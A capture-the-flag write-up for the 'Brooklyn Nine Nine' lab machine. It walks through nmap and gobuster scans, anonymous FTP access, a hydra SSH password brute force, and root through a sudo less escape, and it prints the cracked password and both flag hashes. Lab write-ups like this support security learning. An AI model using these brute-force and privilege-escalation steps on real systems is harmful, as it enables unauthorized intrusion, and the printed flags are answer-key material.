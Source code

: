 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


## Task 1: Deploy and get hacking
### User flag
First, let's scan the target using `nmap`.
```
$ nmap -sC -sV 10.10.255.141
Starting Nmap 7.92 ( https://nmap.org ) at 2023-12-06 21:01 IST
Nmap scan report for 10.10.255.141
Host is up (0.13s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.48.138
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.98 seconds
```
There are three open ports:

| Port | Service | 
|---|----|
| 21 | ftp |
| 22 | ssh |
| 80 | http |

Let's scan all the directories using `gobuster`.
```
$ gobuster dir -u http://10.10.255.141 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.255.141
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 718]
/server-status        (Status: 403) [Size: 278]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
There seems to be nothing of interest in the web directories.

Let's login anonymously through FTP.
```
$ ftp anonymous@10.10.255.141
Connected to 10.10.255.141.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
Let's check out the contents of this directory.
```
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
```
We can download the `note_to_jake.txt` file to our machine using the `get` command.
```
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
100% |***********************************************************************************************************************************************************************************************|   119       22.82 KiB/s    00:00 ETA
226 Transfer complete.
119 bytes received in 00:00 (0.85 KiB/s)
```
Let's check what is in the `note_to_jake.txt` file.
```
$ cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
The only service remaining is SSH. That means that the user `jake` has a weak SSH password.

Using `hydra`, we can brute force the password.
```
$ hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.255.141 -t 4
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-06 21:56:40
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.10.255.141:22/
[STATUS] 44.00 tries/min, 44 tries in 00:01h, 14344355 to do in 5433:29h, 4 active
[22][ssh] host: 10.10.255.141   login: jake   password: 987654321
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-06 21:59:14
```
Now we know that for the user `jake`, the password is `987654321`.

Let's login through SSH using these credentials.
```
$ ssh jake@10.10.255.141            
The authenticity of host '10.10.255.141 (10.10.255.141)' can't be established.
ED25519 key fingerprint is SHA256:ceqkN71gGrXeq+J5/dquPWgcPWwTmP2mBdFS2ODPZZU.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.88.195' (ED25519) to the list of known hosts.
jake@10.10.255.141's password: 
Last login: Tue May 26 08:56:58 2020
jake@brookly_nine_nine:~$ 
```
Let's go to the user `holt`.
```
jake@brookly_nine_nine:~$ cd ..
jake@brookly_nine_nine:/home$ ls
amy  holt  jake
jake@brookly_nine_nine:/home$ cd holt/
jake@brookly_nine_nine:/home/holt$ ls
nano.save  user.txt
```
We can now get the user flag.
```
jake@brookly_nine_nine:/home/holt$ cat user.txt 
ee11cbb19052e40b07aac0ca060c23ee
```
### Answer
```
ee11cbb19052e40b07aac0ca060c23ee
```

&nbsp;

### Root flag
Let's check what file the `jake` user can execute.
```
jake@brookly_nine_nine:/home/holt$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```
We can got to GTFOBins to find an exploit for the `less` binary.

![2](https://github.com/Knign/Write-ups/assets/110326359/1082bb6e-c589-4c23-9535-3b9ebbea349d)

Copy and paste the `Sudo` exploit in the terminal.
```
jake@brookly_nine_nine:/home/holt$ sudo less /etc/profile
# 
```
You will have to press `ENTER` once again after entering the command.
```
# cd root       
# ls
root.txt
# cat root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
```
### Answer
```
63a9f0ea7bb98050796b649e85481845
```
